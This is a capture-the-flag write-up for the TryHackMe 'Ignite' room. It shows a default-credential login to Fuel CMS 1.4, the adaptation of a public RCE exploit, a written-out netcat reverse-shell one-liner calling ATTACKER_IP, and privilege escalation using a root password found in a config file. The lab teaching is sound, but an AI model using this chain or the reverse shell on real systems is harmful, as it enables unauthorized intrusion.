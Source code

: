 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  |  10.10.162.4  |  | [Ignite](https://tryhackme.com/room/ignite) |  |

---

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**

![screenshot14](../assets/images/ignite/screenshot14.png)

Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:

![screenshot16](../assets/images/ignite/screenshot16.png)

Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

Now that we're in, we can obtain **user.txt** from www-data's home directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in /root.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:

![screenshot23](../assets/images/ignite/screenshot23.png)
